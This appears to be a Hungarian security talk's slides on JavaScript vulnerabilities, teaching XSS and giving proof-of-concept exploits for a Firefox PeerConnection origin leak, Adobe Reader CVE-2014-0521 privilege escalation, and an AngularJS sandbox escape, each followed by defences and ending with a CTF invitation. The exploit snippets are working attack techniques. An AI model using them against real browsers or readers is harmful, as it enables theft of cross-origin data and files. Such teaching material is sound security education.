

Javascript alapú sebezhetőségek
Molnár Gábor / @molnar_g
Bemutatkozás
2013 - Mérnök informatikus MSc @ BME
Malware analízis, penetration testing @ Ukatemi/CrySyS Lab
Bug bounty programok, CTF versenyek
JavaScript
A web szkriptnyelve.
Manapság: általános célú nyelv, gyors, beágyazható.
Változók, vezérlőszerkezetek
var a = 1;
var b = a + 2;
if (a < 2) {
a *= 2;
} else {
s = 'string';
}
while (a < 10) {
a++;
}
var c = [];
for (b = 1; b < 10; b++) {
c.push(b);
}
Függvények
function f1(a) { // Function statement with name
var x = 3;
return a*2;
}
var f2 = function(a) { // Function expression assigned to variable
return a*100
};
var f3 = f1; // Function references, first class functions
console.log(f1(1)); // 2
console.log(f2(2)); // 200
console.log(f3(3)); // 6
var f = Function('p1', 'p2', 'return p1*p2');
Objektumok
var o = {
prop1: 1,
prop2: 2
};
console.log(o.prop1);
console.log(o['prop1']);
o.prop2 = 5;
o['prop2'] = 5;
Metódusok, this
var o1 = {};
o1.prop1 = 1;
o1.get_prop1 = function() {
return this.prop1;
};
console.log(o1.get_prop1()); // 1
var o2 = {
prop1: 10,
get_prop1: o1.get_prop1
};
console.log(o2.get_prop1()); // 10
console.log(o1.get_prop1 === o2.get_prop1); // true
o1.get_prop1.call(o2, param1, param2, ...);
o1.get_prop1.apply(o2, [param1, param2, ...]);
Getter/setter függvények
o.a = 3;
o.__defineGetter__('a2', function() {
return Math.pow(this.a, 2);
});
o.__defineSetter__('a2', function(value) {
this.a = Math.pow(value, 0.5);
});
console.log(o.a2); // 9
o.a = 4;
console.log(o.a2); // 16
o.a2 = 4;
console.log(o.a); // 2
Típus konverzió
Dupla egyenlőségnél, műveleteknél. Tripla egyenlőnél nincs!
WAT
1 == '1';
[1,2] == '1,2';
1 + '1';
1 - '1';
1 + 'a';
1 - 'a';
NaN === NaN;
var o = { toString: function() { return 'X'; } };
console.log('Stringified: ' + o); // 'Stringified: X'
Prototípusos öröklődés,
konstruktor függvények
Web
JS + Web APIk = webalkalmazások
Same Domain Policy
Cross Site Scripting - XSS
A Same Origin Policy megkerülésére
Pl. egy admin felület egy részlete:
<p>Name: <?php echo user['name']; ?></p>
Felhasználó neve:
<script>alert('42');</script>
A kód az adminnál fut a weboldal domain-jén: bármit elérhet.
Dom Based XSS
A kliens oldal generálja a HTML-t
$.get('/api/user', function(user) {
$('#name').html(user['name']);
});
Védekezés
Szerver oldal: escape-elés a beillesztés helyétől függően:
idézőjelek, speciális HTML karakterek
Kliens oldal: biztonságos DOM manipuláció:
node.textContent = user['name'];
Böngészők
JS + böngésző belső APIk = Web APIk

Privilegizált JavaScript
Példa: Firefox PeerConnection API
Cél: P2P kapcsolat böngészők között
JS-ben impl.: kényelmes API, hibakezelés, ellenőrzések
C++-ban impl.: hálózatkezelés
FF privilegizált JS interfészek
Alapértelmezés szerint semmi nem látszik.
Két módon tehetők elérhetővé:
- __exposedProps__: egy-egy property elérhetővé tétele
- WebIDL: interfész leíró nyelv, típusokkal, stb. Egyszerű adattípusokká konvertál.
Egyszerű cél: iframe.location
Same Origin Policy vonatkozik rá.
{
href: “http://www...”,
toString: function() {
return this.href;
}
}
Miért fontos? Pl. facebook.com/me
Lehet rá referencia, de:
- Nem lehet stringgé alakítni
- Nem lehet a
.hrefproperty-t olvasni
Sebezhetőség
1 PeerConnection.prototype.createOffer =
2 function(onSuccess, onError, constraints) {
3 var opt = constraints.optional;
4 if (opt)
5 for (var i=0; i<opt.length; i+=1)
6 if (!isObject(opt[i]))
7 throw new Error(
8 "malformed constraint: " + opt[i]
9 );
10 }
Kihasználás
6 if (!isObject(opt[i]))
7 throw new Error(
8 "malformed constraint: " + opt[i]
9 );
Ötlet: opt[0] = iframe.location;,
hibaüzenetben string.
De először át kell menni az ellenőrzésen.
Kihasználás
1 L = document.getElementById('fb-iframe').location;
2 var opt = { length: 1 };
3 var second = false;
4 opt.__defineGetter__('0', function() {
5 return second ? L : (second = true);
6 });
7 var pc = new PeerConnection();
8 var nop = function() {};
9 try {
10 pc.createOffer(nop, nop, { optional: opt });
11 } catch (e) {
12 alert(e.message.slice(72);
13 }
Védekezés
Ha FF fejlesztő vagy ne használj __exposedProps__-ot
A most megjelenő FF verzióban már nincs!
Helyette WebIDL!
JS + PDF APIk = interaktív PDF-ek

CVE-2014-0521 bug
Privilegizált JavaScript futtatás elérése PDF-el
Következmény: fájlok küldése egy távoli szervernek
Jelentés az Adobe-nak: március 10. Javítás: május 13.
Arhitektúra
Privilegizált és Megbízható
Segédfüggvények, API implementációk, aláírt PDF-ek:
File IO, HTTP (űrlap beküldés), stb.
Privilegizált API: csak Megbízható függvények hívhatják.

Trusted státusz elérése
Dummy példa init script:
app.apiFunction = app.trustedFunction(
function(cb_object, cb_name, param) {
app.beginPriv(); // ... Do privileged stuff
cb_object[cb_name](param);
app.endPriv();
}
);
Exploit PDF:
function f() {
app.beginPriv(); // ... Do privileged operations
app.endPriv();
}
app.apiFunction(app, 'trustedFunction', f);
f();
Bug hunting!
DynamicAnnotStore = app.trustedFunction(function (doc, user, settings) {
this.doc = doc;
this.user = user;
// ...
});
var store = new DynamicAnnotStore(doc, { name: 'MG', ... }, { ... });
Hogy vegyük rá egy megadott fv. meghívására?
Property trükk
app.__defineSetter__('doc', app.beginPriv);
app.__defineSetter__('user', app.trustedFunction);
DynamicAnnotStore.call(/*this=*/app, /*doc=*/null, /*user=*/f);
Az eredeti kód, és ami valójában történik:
this.doc = doc -> app.beginPriv(null)
this.user = user -> app.trustedFunction(f)
Probléma: nem lehet a doc-ot felüldefiniálni az app objektumon!
Property trükk v2
var t = {};
t.__defineSetter__('doc', app.beginPriv);
t.__defineSetter__('user', app.trustedFunction);
t.__proto__ = app;
DynamicAnnotStore.call(/*this=*/t, /*doc=*/null, /*user=*/f);
Az eredeti kód, és ami valójában történik:
this.doc = doc -> app.beginPriv.call(t, null)
this.user = user -> app.trustedFunction.call(t, f)
Működik!
Payload: fájl olvasás, HTTP-n küldés
Védekezés
Felhasználóként: tiltsuk le a JS-t az Adobe Reader-ben.
Ne rakjunk felesleges JS interpretert mindenhova :)
Ha mégis: rendes szeparáció mint a Firefox-ban a WebIDL.
Domain Specififc Language
JS + alkalmazás-specifikus APIk = DSL egyszerűen

AngularJS
Webalkalmazás keretrendszer
Kliens oldali template engine:
<p>Username: {{username}}</p>
<p>Email: {{email.replace('@', ' AT ')}}</p>
<p>Money: {{balance | add_dollar_sign}}</p>
Korlátozott JS interpreter!
Tipikus hiba: szerver oldalon template kifejezes beszúrás
Money: {{'<?php echo $amount ?>' | add_dollar_sign}}
Garancia: a beszúrt JS nem vezet XSS-hez! (ha a } escape-elt)
Sandbox escape példa
Mathias Karlsson: AngularJS Sandbox Bypass
<div>
{{
toString.constructor.prototype.toString =
toString.constructor.prototype.call;
["a","alert(1)"].sort(toString.constructor);
}}
</div>
Magyarázat
Function.prototype.toString = Function.prototype.call;
["a", "alert(1)"].sort(Function);
Function.prototype.toString = Function.prototype.call;
if (Function('a', 'alert(1)') < 1) { // ...
} else if (Function('a', 'alert(1)') > 1) { // ...
} else { // ...
}
if (Function('a', 'alert(1)').toString() < '1') {
// ...
if (Function('a', 'alert(1)').call() < '1') {
// ...
if (eval('alert(1)') < '1') {
// ...
Védekezés
Ne bízzunk az AngularJS XSS védelmében.
Szerver oldalon escape-elés!
Ne írjunk JS interpretert JS-ben :)
Rendszer alkalmazások
JS + rendszer APIk = rendszer alkalamzások

Window Script Host
Beágyazott rendszerek
JS + hardver APIk = beágyazott rendszer
Challenge
Ma este 9-től
netcat gabor.molnar.es 12345
Számológép alkalmazás (JavaScript DSL) whitelist szűréssel
Cél: a flag.txt fájl tartalmát megszerezni